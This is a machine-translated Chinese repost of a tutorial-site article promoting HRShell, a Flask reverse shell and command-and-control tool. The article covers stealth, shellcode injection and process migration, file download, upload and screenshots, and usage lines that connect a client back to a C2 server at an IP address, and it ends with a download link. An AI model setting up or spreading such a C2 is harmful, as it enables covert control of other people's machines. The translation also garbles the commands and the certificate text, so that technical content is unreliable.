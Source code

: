 # HRShell:用 Flask 构建的 HTTPS/HTTP 反向外壳

> 原文：<https://kalilinuxtutorials.com/hrshell-https-http-reverse-shell-built-with-flask/>

HRShell 是一个用 flask 构建的 HTTPS/HTTP 反向 Shell。这是一个先进的 C2 服务器，具有许多功能&。

这是一个用 flask 构建的 HTTPS/HTTP 反向外壳。它与 python 3.x 兼容，并已在以下平台上成功测试:

*   Linux Ubuntu 18.04 lt，Kali Linux 2019.3
*   马科斯·莫哈维
*   Windows 7/10

![](img/2d154e29677a36d409dc3b55be97e390.png)

**特点**:

*   它是隐形的
*   **TLS** 支持
    *   使用即时证书或
    *   通过指定一个证书/密钥对(更多细节见下文…)
*   外壳代码注入(更多细节见下文……)
    *   要么在当前运行进程的线程中注入外壳代码
        *   迄今支持的平台:
            *   **Windows x86**
            *   **Unix x86**
            *   **Unix x64**
    *   或者通过指定 PID 将外壳代码注入另一个进程(`migrate <PID>`)
        *   迄今支持的平台:
            *   **Windows x86**
            *   **Windows x64**
*   外壳代码可以在服务器上动态设置/修改(更多细节见下文…)
*   客户端上的代理支持。
*   目录导航(`cd`命令和变体)。
*   `download/upload/screenshot`可用命令。
*   支持流水线(`|` ) &)链式命令(`;`)
*   支持每一个非交互式(如 gdb，top 等)命令
*   服务器支持 HTTP 和 HTTPS。
*   到目前为止，它配备了两个内置服务器… flask 内置& tornado-WSGI，同时它还兼容其他生产服务器，如 [`gunicorn`](http://gunicorn.org/) 和 [`Nginx`](https://www.nginx.com/) 。
*   `server.py`和`client.py`都很容易扩展。
*   因为大部分功能来自服务器的端点设计，所以用其他语言编写客户端非常容易，例如 java、GO 等

**也可理解为-****[路由器漏洞挖掘铲:无线路由器上栈溢出类型的自动应用生成](https://kalilinuxtutorials.com/router-exploit-shovel-automated-application-generation-for-stack-overflow-types-on-wireless-routers/)**

**详情**

**TLS 键**

**服务器端:**除非指定了–http 选项，否则默认情况下 server.py 是使用动态证书的 HTTPS，因为动态证书是一个内置的 flask 特性。但是，如果为了使服务器使用 TLS 而指定了-s tornado 选项，则必须指定 a-cert 和 a-key 选项，如下所示:

**python server . py-s tornado–cert/path/cert . PEM–key/path/key . PEM**

可以使用“真正的”证书，或者另一种生成证书/密钥对的方法是使用 openssl，如下所示:

**OpenSSL req-x509-new key RSA:4096-nodes-out cert . PEM-keyut key . PEM-days 365**

证书/密钥对也可用于 flask 服务器:

**python server . py–cert/path/cert . PEM–key/path/key . PEM**

> **注意**:如果服务器使用 TLS，那么根据设计，客户端不能使用`http://...`连接到服务器，而必须显式使用`https`来代替。

**客户端:**默认情况下，客户端的 SSL 验证被禁用，除非:

*   要么指定–cert 参数，例如:

**python client . py-s https://192 . 168 . 10 . 7:5000–cert/path/cert . PEM**

*   或者 CERT 变量，而不是缺省的 None 值，是预先用有效的证书设置的，例如:

**证书=”
——开始证书】
miiboccoucacqawdyjkozykhvcnaqqyqyqawyzermakga 1 uebhmcqvuxezarbgnv
bagtclf 1 zw vuc 2 xhbmqxgjaybgnvboteunyexb 0 u 29 mdcbhkgthrkmsmqyd
vqqdexpat**

在这种情况下，client.py 将尝试动态创建一个隐藏的. cert.pem 文件，并将使用该文件。

**外壳代码注入**

外壳代码注入有两种“模式”,分别使用以下两个命令:

1.  使用这个命令，我们可以通过指定进程的 PID 将外壳代码注入到另一个进程的内存空间中。目前这个命令只能应用在 **Windows x86/x64** 平台上！

![](img/e7f5599ef6d98098a3c2fddcd0dfb3d7.png)

2.使用这个命令，我们当前进程的一个新线程被创建，外壳代码注入发生在它的内存空间中。因此，我们的 HTTP(S) shell 不会受到注入的影响。该命令可以应用的平台有: **Unix x86/x64，Windows x86** 平台！

![](img/47f8cb3874e7eda326ef3cdb390b9294.png)

**注意:**如果注入发生在一个流程上，那么流程权限起着非常重要的作用。由于缺乏适当的权限，并不总是能够在任何进程上注入。

**设置/修改外壳代码**

有两种方法可以指定/设置希望客户端执行的外壳代码类型:

*   将`client.py`脚本上的`shellcode`变量预设为有效的外壳代码，或者
*   使用`set shellcode <shellcode-id>`命令动态完成该操作。使用这个命令，您可以从服务器端更新您的外壳代码，次数不限！

![](img/6739916f6e0230995410f3f3fac33506.png)

第一种方法非常简单。然而，为了使用第二种更方便的方法(*，因为你也可以修改一个已经指定的外壳代码*)，你必须设置`shellcodes/utils.py`脚本，使其包含你选择的外壳代码。该脚本包含了一个如何做到这一点的示例。

> 你可以修改/更新`shellcodes/utils.py`脚本，即使你已经启动了`server.py`多次，因为`server.py`将动态使用最新/最近的版本。通过这种方式，您可以随时设置&修改外壳代码…

**可用命令:** **特殊命令**

![](img/b98ccd5fe92b5d308b64e605230be044.png)

支持任何其他命令，如果它是**而不是**像*那样交互的，例如 gdb、top 等……*也可以通过键入`python server.py -h`或`python client.py -h`获得服务器和客户端可用参数的信息。

**注意:**如果一个客户端与服务器连接，我们想终止服务器，在按 CTRL+C 之前，我们必须使用`exit`命令关闭连接。

**创建自定义命令**

**客户端:**

为了创建一个*自定义*命令，一般情况下:

*   描述命令的正则表达式规则必须在客户端定义
*   处理该命令的代码必须作为一个`elif`语句添加到客户端。

**服务器端:**

如果该命令要求服务器端存在新端点，则:

*   要定义端点:

**@ app . route('/custom _ endpoint/')
def custom _ endpoint(arg):
" " "
文档如果需要
"""
…
return …**

*   然后编辑 handleGET()将客户端重定向到该端点:

**@ app . route('/')
def handleGET():
……
return redirect(URL _ for(' custom _ endpoint '，
arg =……)
)**

*   在 handlePOST()中进行适当的编辑，以处理结果的显示。

**脚本参数**

两个脚本(server.py 和 client.py)都可以通过参数进行自定义:

**server.py**

**$ python server.py -h
用法:server . py[-h][-S][-c][–host][-p][–HTTP][–cert][–key]

server . py:具有高级功能的 HTTP(S)反壳服务器。

参数:
-h，–help 显示此帮助消息并退出
-s，–server 指定要使用的 HTTP(S)服务器(默认:flask)。
-c，–客户端仅接受来自指定客户端/IP 的连接。
–主机指定要使用的 IP(默认值:0.0.0.0)。
-p，–port 指定要使用的端口(默认值:5000)。
–http 禁用 TLS，改用 HTTP。
–cert 指定要使用的证书(默认值:无)。
–key 指定要使用的相应私钥(默认:无)。**

**client.py**

**$ python client.py -h
用法:client . py[-h][-S][-c][-p]

client . py:具有高级功能的 HTTP(S)客户端。

参数:
-h，–help 显示此帮助消息并退出
-s，–server 指定要连接的 HTTP(S)服务器。
-c，–cert 指定要使用的证书。
-p，–proxy 指定要使用的代理【格式:主机:端口】**

**要求**:

安装服务器-要求:

**pip install-r requirements . txt–升级–用户**

**免责声明**

该工具仅用于测试和学术目的，并且只能在严格同意的情况下使用。请勿用于非法目的！最终用户有责任遵守所有适用的地方、州和联邦法律。开发人员不承担任何责任，也不对该工具和软件造成的任何误用或损坏负责。

**演职员表**:塞茨 j .灰帽蟒

[Download](https://github.com/chrispetrou/HRShell)